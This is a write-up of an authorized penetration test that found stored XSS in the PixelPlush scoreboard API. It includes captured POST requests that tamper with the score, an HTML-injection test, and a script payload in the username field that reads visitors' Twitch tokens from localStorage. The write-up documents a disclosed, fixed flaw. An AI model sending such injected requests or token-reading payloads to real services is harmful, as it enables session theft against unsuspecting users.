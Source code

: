 ```yaml
---
title: 'Pentesting | XSS in the Pixelplush Scoreboard'
date: "2021-05-25T00:00:00Z"
tags: [xss,pixelplush]
---
```


This writeup is about the **XSS in the [PixelPlush](https://pixelplush.dev) Scoreboard**. 

NOTE: Please always ask for permissions when pentesting a website!



When I decided to pentest [PixelPlush](https://pixelplush.dev) (ofcourse with permission), I was looking for possible vulnerable endpoints that possibly reflect data into a page. I saw that the site has a scoreboard for the Parachute game, and decided this is a nice place to start.



First I took a look at the requests the page made, This one stood out.

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/get-scoreboard-scores.png)



It returns JSON, In this case an array with objects that contain the username, the score and the user-id.

I will provide a example object below.

```json
{
  "userId": "13371337",
  "username": "leethaxor",
  "user": "leethaxor",
  "score": 99.99,
  "created": "2021-05-13T17:16:29.468Z",
  "updated": "2021-05-13T17:16:29.468Z"
}
```



Now we need to know the endpoint that submits the points.

We can simply do this by starting the overlay ourselves and playing it, while having burp open to capture any requests it makes. Finally after a few tries I win some points and a request is made.



![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/post-add-score.png)



The data being send is a JSON Object (sample down below)

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "parachute",
  "theme": "Pixel Parachute (Day)",
  "user": "PortaalGaming",
  "score": "92.98",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

The URL its being send to is https://api.pixelplush.dev/v1/scores/add

Lets send this request to the repeater in Burp Suite. First we can test changing the score count over 100, cause 100 is the limit of the game.



Lets send the following request

```http
POST /v1/scores/add HTTP/1.1
Host: api.pixelplush.dev
Content-Length: 206
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Microsoft Edge";v="90"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://www.pixelplush.dev
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.pixelplush.dev/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,nl;q=0.8
Sec-Gpc: 1
Connection: close

{"token":"REDACTED","channel":"portaalgaming","game":"writeup","theme":"Pixel Parachute (Day)","user":"PortaalGaming","score":"999999","userId":"244294836","username":"portaalgaming"}
```



When we now open the page (or send a request to the points endpoint). And yes it set the amount of points, to over 100.

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/get-scoreboard-faked-points.png)

```json
[
  {
    "userId": "244294836",
    "username": "portaalgaming",
    "user": "PortaalGaming",
    "score": 999999,
    "created": "2021-05-25T08:17:56.807Z",
    "updated": "2021-05-25T08:17:56.807Z"
  }
]
```



Now that we know the score isn't safe, lets try to inject html into the user field. Maybe it will work.

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "writeup",
  "theme": "Pixel Parachute (Day)",
  "user": "<b>PortaalGaming",
  "score": "1337",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

And the server returns with

```json
{ "success": 1 }
```

Nice, it injected the code into the website. (Please note that this now has been fixed and you cant exploit it anymore)


Now lets inject some JavaScript to alert your twitch token. The twitch token is saved inside of the localStorage. 

```json
{
  "token": "REDACTED",
  "channel": "portaalgaming",
  "game": "writeup",
  "theme": "Pixel Parachute (Day)",
  "user": "<script>alert('H4x3d by Daanbreur. Your twitch token is: '+localStorage.getItem('twitchToken'))</script>",
  "score": "1337",
  "userId": "244294836",
  "username": "portaalgaming"
}
```

And if you now open the website, navigate to the scoreboard and open my page, you would have been greeted with an alert that told your twitch token!

![](/assets/CTFs/Pentesting/PixelPlush-Scoreboard-XSS/xss-alert.png)


**Big Thanks to [Instafluff](https://twitch.tv/instafluff) Creator of Pixelplush for letting me pentest the website and write this writeup!**
